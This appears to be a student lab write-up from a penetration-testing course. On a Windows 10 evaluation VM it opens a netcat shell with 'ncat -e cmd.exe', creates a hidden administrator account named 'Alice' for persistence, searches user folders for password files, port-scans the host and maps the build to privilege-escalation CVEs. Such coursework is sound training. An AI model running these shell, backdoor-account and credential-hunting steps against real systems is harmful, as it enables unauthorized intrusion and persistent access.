 _made in Obsidian.md_

If you have a Markdown reader, I strongly suggest you use it to view this for vastly increased readibility. Enjoy! :)

### 1.
I established a Netcat reverse shell connection to the target Windows system using the following steps:
- On the Windows target, executed: `ncat -l -p 8080 -e cmd.exe`
- On my Kali Linux attack machine, connected with: `nc 10.10.0.5 8080`

After connection, I verified my current user context:
```
C:\Windows\system32>whoami
whoami
windev2004eval\user
```

### 2. 
I listed all user accounts on the system:
```
C:\Windows\system32>net users
net users
User accounts for \\WINDEV2004EVAL
-------------------------------------------------------------------------------
Administrator DefaultAccount Guest
sshd User WDAGUtilityAccount
The command completed successfully.
```

### 3. 
I enumerated members of the local administrators group:
```
C:\Windows\system32>net localgroup administrators
net localgroup administrators
Alias name administrators
Comment Administrators have complete and unrestricted access to the
computer/domain
Members
-------------------------------------------------------------------------------
Administrator
User
The command completed successfully.
```

### 4.
I created a new user account for persistent access:
```
C:\Windows\system32>net user /add Alice pass
net user /add Alice pass
The command completed successfully.
```

### 5.
I added the new account to the administrators group:
```
C:\Windows\system32>net localgroup administrators "Alice" /add
net localgroup administrators "Alice" /add
The command completed successfully.
```

### 6.
I confirmed the backdoor account now has administrative privileges:
```
C:\Windows\system32>net localgroup Administrators
net localgroup Administrators
Alias name Administrators
Comment Administrators have complete and unrestricted access to the
computer/domain
Members
-------------------------------------------------------------------------------
Administrator
Alice
User
The command completed successfully.
```

### 7.
I verified SSH access using the newly created administrative account:
```
ssh Alice@10.10.0.5
```

The connection was successful, and I verified I was running with the Alice user context by running `whoami`.
![[Pasted image 20250421232541.png]]

## Slide 42

I searched for password files using PowerShell:
```
PS C:\Windows\system32> Get-ChildItem -Path C:\Users -Recurse | Where-Object {
$_.Name -like '*password*' }
Get-ChildItem -Path C:\Users -Recurse | Where-Object { $_.Name -like '*password*' }
Directory: C:\Users\User\temp
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 4/20/2024 1:12 PM 32 NYUpassword.txt
```

## Slide 46

I performed a port scan of the target system to identify open services:
```
PS C:\Windows\system32> 20..25 | ForEach-Object {$port = $_; Test-NetConnection
-ComputerName 10.10.0.5 -Port $port -InformationLevel Quiet -ErrorAction
SilentlyContinue}
20..25 | ForEach-Object {$port = $_; Test-NetConnection -ComputerName 10.10.0.5 -Port $port
-InformationLevel Quiet -ErrorAction SilentlyContinue}
WARNING: TCP connect to (10.10.0.5 : 20) failed
False
WARNING: TCP connect to (10.10.0.5 : 21) failed
False
True
WARNING: TCP connect to (10.10.0.5 : 23) failed
False
WARNING: TCP connect to (10.10.0.5 : 24) failed
False
WARNING: TCP connect to (10.10.0.5 : 25) failed
False
```

The results show that only port 22 (SSH) is open on the target system.

## Slide 79

First, I gathered system information to identify the Windows version:
```
PS C:\Windows\system32> systeminfo
systeminfo
Host Name: WINDEV2004EVAL
OS Name: Microsoft Windows 10 Enterprise Evaluation
OS Version: 10.0.18363 N/A Build 18363
```

Based on the build number, I determined this is Windows 10 Version 1909.

### Vulnerability Analysis
After researching on CVEdetails.com, I found:
1. **False Positive Example**: CVE-2022-26828 - Windows Bluetooth driver elevation of privilege vulnerability
   - Checked Device Manager and confirmed no Bluetooth drivers were installed
   - ![[Pasted image 20250421233415.png]]
   
2. **True Positive Example**: CVE-2022-21999 - Windows Print Spooler Elevation of Privilege Vulnerability
   - Confirmed Print Spooler service is running on the system
   - ![[Pasted image 20250421233504.png]]
   - This true positive should be ranked as high priority as this is included in the CISA Known Exploited Vulnerabilities Catalog. It can be used to gain dangerous privilege escalations
